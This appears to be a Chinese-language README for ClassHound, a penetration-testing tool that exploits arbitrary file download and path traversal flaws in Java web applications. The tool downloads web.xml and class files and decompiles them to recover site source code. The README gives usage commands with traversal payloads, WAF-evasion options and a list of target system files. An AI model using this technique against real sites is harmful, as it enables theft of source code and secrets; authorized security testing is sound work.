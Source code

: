 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**



### 注意事项

```
1. 程序兼容 python 2.7+ 和 3.4+, 运行前先安装 requirements.txt 中的python模块, 并安装配置好 java 环境变量
2. 使用过程中的 bug 和优化建议欢迎提 issue
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用

### *0x00:* -u/--url

指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

```html
例如可正常下载 1.png 文件的链接如下：http://127.0.0.1/download.jsp?path=images/1.png
任意文件下载漏洞载荷位置正好在 1.png，可以使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"

或者使用链接 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 可正常下载文件时,
也可使用命令: 
python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"
```



### *0x01:* -k/--keyword

指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功

```html
如 -k "404 not found" ，不清楚或不固定时，可以不指定
```



### *0x02:* -p/--post

使用 POST 请求下载文件

```
python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"
```



### *0x03:* -tc/--travel-char (推荐使用)

直接指定**文件遍历字符**，默认是 `../`，当对方有WAF或者程序没有自动探测出来特殊的遍历字符时，可以单独指定



### *0x04:* -cc/--char-count  (推荐使用)

直接指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**



```
程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载 WEB-INF/web.xml 文件时，此时的遍历字符数量为 3 个

可使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3
```



### *0x05:* -bp/--base-path

指定 `WEB-INF/web.xml` 的多级父目录



```
例如当因目录原因，直接跳目录用 ../../../WEB-INF/web.xml 不能下载 WEB-INF/web.xml 文件，需要用 ../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml 才可以下载成功时：

可以指定需要拼接的前缀路径为 opt/tomcat/webapps/cms/，同时用 -cc 7 显示指定需要 7 个遍历字符
```



### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## --auto
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理
```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)

